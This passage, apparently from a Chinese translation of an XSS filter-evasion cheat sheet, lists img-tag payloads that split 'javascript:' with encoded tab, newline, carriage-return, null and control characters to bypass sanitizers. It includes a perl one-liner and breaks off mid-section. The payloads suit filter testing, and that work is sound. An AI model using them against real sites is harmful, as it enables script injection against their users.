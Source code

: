 ### 2.20. 内嵌编码后的 TAB 分隔 XSS 代码

``` {.html}
<img src="jav&#x09;ascript:alert('XSS');" />
```

### 2.21. 内嵌换行分隔 XSS 代码

一些网站声称 09 到 13（十进制）的 HTML
实体字符都可以实现这种攻击，这是不正确的。只有 09（TAB），10（换行）和
13（回车）有效。查看 ASCII 字符表获取更多细节。下面几个 XSS
示例介绍了这些向量。

``` {.html}
<img src="jav&#x0A;ascript:alert('XSS');" />
```

### 2.22. 内嵌回车分隔 XSS 代码

（注意：上面我使用了比实际需要更长的字符串是因为 0
可以忽略。经常可以遇到过滤器解码十六进制和十进制编码时认为只有 2 到 3
字符。实际规则是 1 至 7 位字符）

``` {.html}
<img src="jav&#x0D;ascript:alert('XSS');" />
```

### 2.23. 使用空字符分隔 JavaScript 指令

空字符同样可以作为 XSS 攻击向量，但和上面有所区别，你需要使用一些例如
Burp 工具 或在 URL 字符串里使用%00，亦或你想使用 VIM
编写自己的注入工具（^V^@会生成空
字符），还可以通过程序生成它到一个文本文件。老版本的 Opera 浏览器（例如
Windows 版的 7.11）还会受另一个字符 173（软连字符）的影响。但是空字符%00
更加有用并且能帮助绕过真实世界里的过滤器，例如这个例子里的变形：

``` {.html}
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

### 2.24. 利用 IMG 标签中 JavaScript 代码前的空格以及元字符

如果过滤器不计算"javascript:"前的空格，这是正确的，因为它们不会被解析，但这点非常有用。因为这会造成错误的假设，就是引号和"javascript:"字样间不能有任何字符。实际情况是你可以插入任何十进制的
1 至 32 号字符：

``` {.html}
<img src=" &#14;  javascript:alert('XSS');" />
```

### 2.25. 利用非字母非数字的字符

FireFox 的 HTML 解析器认为 HTML
关键词后不能有非字母非数字字符，并且认为这是一个空白或在 HTML
标签后的无效符号。但问题是有的 XSS
过滤器认为它们要查找的标记会被空白字符分隔。例如"\<SCRIPT\s" !=
"\<SCRIPT/XSS\s":
